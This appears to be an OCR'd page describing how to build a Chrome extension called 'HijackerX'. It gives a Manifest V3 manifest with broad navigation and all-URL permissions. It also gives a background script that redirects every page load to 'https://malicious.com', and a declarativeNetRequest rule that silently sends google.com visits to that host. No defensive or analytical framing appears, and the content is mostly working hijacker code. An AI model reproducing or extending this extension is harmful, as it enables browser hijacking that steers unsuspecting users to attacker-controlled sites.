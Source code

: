 #### **Core Components**  
| Component          | Description                                                                 |  
|---------------------|-----------------------------------------------------------------------------|  
| **manifest.json**   | Central configuration file defining permissions, background scripts, and rules. |  
| **Service Worker**  | Persistent background script (e.g., `background.js`) for real-time monitoring. |  
| **DeclarativeNetRequest** | API for silent URL rewriting without traditional scripting. |  

#### **Manifest Configuration**  
```json  
{  
  "name": "HijackerX",  
  "version": "1.0",  
  "manifest_version": 3,  
  "permissions": [  
    "webNavigation",  
    "tabs",  
    "<all_urls>"  
  ],  
  "background": {  
    "service_worker": "background.js"  
  },  
  "declarative_net_request": {  
    "rule_resources": [  
      {  
        "id": "redirect_rules",  
        "enabled": true,  
        "path": "rules.json"  
      }  
    ]  
  }  
}  
```  

#### **Redirect Logic Examples**  
- **Event-Based Redirect (JavaScript):**  
  ```javascript  
  chrome.webNavigation.onBeforeNavigate.addListener((details) => {  
    chrome.tabs.update(details.tabId, { url: "https://malicious.com" });  
  });  
  ```  

- **DeclarativeNetRequest Rules (rules.json):**  
  ```json  
  [  
    {  
      "id": 1,  
      "priority": 1,  
      "action": { "redirect": "https://malicious.com" },  
      "condition": {  
        "urlFilter": "google.com",  
        "resourceTypes": ["main_frame"]  
      }  
    }  
  ]  
  ```  
